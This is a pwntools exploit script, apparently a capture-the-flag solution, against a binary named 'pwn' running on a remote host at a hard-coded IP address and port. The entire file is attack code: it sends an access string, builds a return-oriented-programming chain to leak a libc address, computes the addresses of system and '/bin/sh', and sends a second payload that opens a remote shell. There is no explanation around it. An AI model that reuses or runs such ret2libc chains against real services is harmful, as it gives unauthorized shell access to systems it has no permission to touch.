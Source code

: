 # file_store

from pwn import *

elfname = './pwn'
libcname = './libc.so.6'

p = remote('39.104.19.209', 32223)
elf = ELF(elfname)
libc = ELF(libcname)

context.log_level = 'debug'
context.arch = 'amd64'
context.binary = elfname




r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)
uu32 = lambda data: u32(data.ljust(4, '\x00'))
uu64 = lambda data: u64(data.ljust(8, '\x00'))

loginfo = lambda tag, addr: log.success(tag + " -> " + hex(addr))
#gdb.attach(p,'b * 0x400A83')
p.send('{>o<fi:`mjkj5daqd6fhugim~~rj5h='.ljust(0x20,'\x00'))
poprdi=0x0000000000400af3
poprsi=0x0000000000400af1
payload='c'*0x30+p64(0x601e00)+p64(poprdi)+p64(0)+p64(poprsi)+p64(0x601058)*2+p64(elf.plt['read'])
payload+=p64(poprdi)+p64(elf.got['strlen'])+p64(elf.plt['setvbuf'])+p64(0x400A64)
sl(payload)
sleep(4)
p.send('\x70\x09')
libcbase=u64(p.recv(6).ljust(8,'\x00'))-0x18e450
loginfo("libc",libcbase)
system=libcbase+libc.sym['system']
binsh=libcbase+libc.search("/bin/sh").next()
p.send('{>o<fi:`mjkj5daqd6fhugim~~rj5h='.ljust(0x20,'\x00'))
payload='a'*0x30+p64(0x601e00)+p64(poprdi+1)+p64(poprdi)+p64(binsh)+p64(system)
p.send(payload)
p.interactive()